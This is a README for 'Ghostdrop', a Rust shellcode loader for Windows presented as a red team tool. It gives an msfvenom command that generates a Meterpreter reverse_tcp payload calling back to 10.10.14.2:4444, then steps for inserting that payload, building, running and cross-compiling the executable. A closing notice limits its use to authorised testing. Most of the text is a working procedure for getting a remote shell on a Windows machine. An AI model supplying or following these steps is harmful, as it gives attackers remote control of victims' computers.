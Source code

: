# Ghostdrop

A Windows shellcode execution tool for red team operations.

## Features

- Loads and executes raw Windows shellcode
- Supports Meterpreter reverse shell payloads
- Test mode for safe execution verification
- Cross-compilation support from Linux to Windows

## Usage

1. Generate shellcode using msfvenom:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f rust
```

2. Copy the generated shellcode into `src/main.rs`, replacing the placeholder array.

3. Build the project:
```bash
cargo build --release
```

4. Run the program:
```bash
./target/release/ghostdrop.exe
```

### Test Mode

To run in test mode (skips shellcode execution):
```bash
./target/release/ghostdrop.exe --test
```

## Cross-compilation from Linux to Windows

1. Install the Windows target:
```bash
rustup target add x86_64-pc-windows-msvc
```

2. Build for Windows:
```bash
cargo build --release --target x86_64-pc-windows-msvc
```

The compiled binary will be in `target/x86_64-pc-windows-msvc/release/ghostdrop.exe`

## Security Notice

This tool is intended for red team operations and penetration testing only. Use responsibly and in accordance with applicable laws and regulations. 